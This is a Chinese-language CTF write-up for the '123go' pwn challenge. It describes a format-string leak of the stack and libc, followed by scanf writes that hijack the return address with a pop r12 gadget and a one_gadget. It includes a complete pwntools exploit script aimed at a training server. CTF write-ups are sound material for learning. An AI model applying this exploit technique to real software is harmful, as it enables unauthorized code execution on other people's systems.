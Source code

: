 # 123go 

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.31-0ubuntu9.14|

## 解题思路

一次printf，两次scanf，每次16字节，颇有一点难度  
我一看栈的地址，因为ASLR的存在乱跳，不方便硬编码；写2个字节吧，又没有机会leak libc；
因为栈上有跳板`ptr1->ptr2->char[]str`，因此可以`*ptr1=ptr2x->retAddr`（打moectf打的），
然后再`*ptr2x=oneGadget`控制返回流为ogg；但是我检查限制条件时，发现让`r12 == 0`不满足，
故先写`pop r12;ret`的地址到返回地址上，跟一个`p64(0)`，把让r12改成0，再做ogg；
此时发现，scanf岂不是比%n好用多了？所以第一个scanf改的是跳板，第二个改的是返回地址内容

值得注意的是，scanf("%s")是不按\0截断的，并且也可以用`%8$s`这种方式指定参数序号

## EXPLOIT

```python
from pwn import *

def payload(lo:int):
    global sh
    libc = ELF('./libc-2.31.so')
    if lo:
        sh = process('123go')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('training.0rays.club', 10039)

    # payload 1, leak stack & libc
    sh.sendafter(b'name:', b'%11$p%13$p')

    sh.recvuntil(b'llo:') # skip
    libcstartmain = int(sh.recv(14).decode(), 16)
    libcBase = libcstartmain - 243 - libc.symbols['__libc_start_main']
    print('libc leaked')

    stack = int(sh.recv(14).decode(), 16)
    retAddr = stack - 0x648 + 0x558
    print('stack leaked')

    if libcBase & 0xfff:
        print(f'Invalid libcBase ({hex(libcBase)})')
        sh.close()
        return False

    sh.sendafter(b'text', b'%13$d')
    input('type <CR> when ready') # avoid input piling
    sh.sendline(str(retAddr & 0xffffffff).encode()) # int is enough
    print('addr sent')

    popR12 = libcBase + 0xc9e91
    oneGadget = libcBase + 0xe3afe
    sh.sendafter(b'text', b'%41$s')
    input('type <CR> when ready')
    sh.sendline(p64(popR12) + p64(0) + p64(oneGadget))
    print('payload sent')

    sh.interactive()
```
